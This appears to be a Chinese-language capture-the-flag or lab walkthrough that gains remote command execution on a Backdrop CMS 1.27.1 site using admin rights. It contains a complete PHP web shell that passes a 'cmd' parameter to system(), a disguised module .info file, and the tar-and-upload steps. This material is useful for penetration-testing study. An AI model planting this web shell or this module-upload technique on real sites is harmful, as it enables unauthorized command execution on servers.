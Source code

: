 # 漏洞利用

下面就是看一下这个网页框架是什么 和对应的版本 针对特性 搜索已经有的漏洞进行利用
Reports（报告） → Status report（状态报告）在这个里面有版本信息
是Info
	Backdrop CMS 1.27.1 

根据公开漏洞记录：
1.27.1 并未修复后续版本中的某些 XSS、文件上传或模块注入漏洞
你当前拥有 管理员权限，即便没有远程漏洞，也可以通过上传模块或模板注入实现 RCE（远程命令执行）

![image](https://github.com/user-attachments/assets/d3b27d8d-dd75-4165-8985-e381b89a721b)
我们发现这里可以手动上传模块，文件格式有要求是 tar.gz 打包.info 和小马.php 
info 文件:
```bash
 type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
```

小马：
```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    if(isset($_GET['cmd']))
    {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
```
把这两个文件打包上传
```bash
tar -cvzf shell.tar.gz shell/
```
在浏览器访问我们上传小马的目录并执行： http://10.10.11.58/modules/shell/shell.php?cmd=id
会弹出一下页面
![image](https://github.com/user-attachments/assets/94881763-6509-434c-84e4-df9a01a2c674)
